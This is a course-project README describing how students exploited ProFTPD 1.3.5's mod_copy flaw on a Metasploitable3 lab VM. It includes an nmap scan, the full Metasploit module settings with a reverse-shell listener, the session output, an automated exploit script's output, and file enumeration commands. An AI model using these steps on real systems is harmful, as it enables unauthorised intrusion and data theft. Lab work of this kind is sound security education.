

# Phase 1: Service Setup & Compromise

This directory contains all artifacts, scripts, and outputs for **Phase 1** of the ICS344 Course Project: identifying and exploiting a vulnerable FTP service on the Metasploitable3 VM.

---

## 1. Environment IP Addresses

1. **Attacker (Kali Linux)**

   ```bash
   $ ip a
   # eth0: inet 10.0.2.8/24
   ```

   

2. **Victim (Metasploitable3)**

   ```bash
   $ ip a
   # eth0: inet 10.0.2.15/24
   ```

   

---

## 2. FTP Service Detection

We confirmed an FTP server running ProFTPD 1.3.5 on port 21:

```bash
$ nmap -sV -p 21 10.0.2.15
# 21/tcp open  ftp  ProFTPD 1.3.5
```

---

## 3. Metasploit Exploit: `mod_copy_exec`

We used the `proftpd_modcopy_exec` exploit to drop a PHP payload and obtain a shell.

```bash
$ msfconsole -q
msf6> use exploit/unix/ftp/proftpd_modcopy_exec
msf6 exploit(unix/ftp/proftpd_modcopy_exec)> set RHOSTS 10.0.2.15
msf6 exploit(unix/ftp/proftpd_modcopy_exec)> set RPORT 21
msf6 exploit(unix/ftp/proftpd_modcopy_exec)> set FTPUSER faisal
msf6 exploit(unix/ftp/proftpd_modcopy_exec)> set FTPPASS faisal1234
msf6 exploit(unix/ftp/proftpd_modcopy_exec)> set SITEPATH /var/www/html
msf6 exploit(unix/ftp/proftpd_modcopy_exec)> set TMPPATH /tmp
msf6 exploit(unix/ftp/proftpd_modcopy_exec)> set LHOST 10.0.2.8
msf6 exploit(unix/ftp/proftpd_modcopy_exec)> set LPORT 4444
msf6 exploit(unix/ftp/proftpd_modcopy_exec)> exploit
```

### 3.1 Session Established

```text
[*] Started reverse TCP handler on 10.0.2.8:4444
[*] 10.0.2.15:80 – Connected to FTP server
[*] 10.0.2.15:80 – Sending copy commands to FTP server
[*] 10.0.2.15:80 – Executing PHP payload /6zRR2YD.php
[*] 10.0.2.15:80 – Deleted /var/www/html/6zRR2YD.php
[+] Command shell session 1 opened (10.0.2.8:4444 -> 10.0.2.15:56577)
```


---

## 4. Module Configuration & Targets

* **Payload Options**: `cmd/unix/reverse_netcat`, `cmd/unix/reverse_perl`, etc.
* **Detected Target**: ProFTPD 1.3.5 (auto-detected)


---

## 5. Automated Exploit Script

We wrapped the above steps into a Python script (`script2.py`) for repeatable execution:

```bash
$ ./script2.py
# output:
#   Started reverse TCP handler on 10.0.2.8:4444
#   Connected to FTP server
#   Sending copy commands...
#   Executing PHP payload /MFG4doW.php
#   Deleted /var/www/html/MFG4doW.php
# [+] Command shell session 1 opened
```



---

## 6. Interactive Shell & Enumeration

Once the session was open, we ran basic enumeration:

```bash
sessions -i 1
whoami
ls -al /
find / -name secret*.txt
```

This confirmed root-level file access and located `secret.txt` on the filesystem.

---

### Deliverables for Phase 1

* **Screenshots** (in `screenshots/`):

  * `kali_ping.jpg`
  * `metasploitable_ip.jpg`
  * `msf_run_exploit.jpg`
  * `msf_set.jpg`
  * `msf_use.jpg`
  * `script_automation.jpg`
* **Exploit Script**: `script2.py`
* **Raw Scan Outputs**: `phase1_nmap.txt`, `phase1_nikto.txt`
* **Custom Banner Script**: `phase1_http_banner.py`

Proceed to Phase 2 for SIEM ingestion and analysis of these logs.
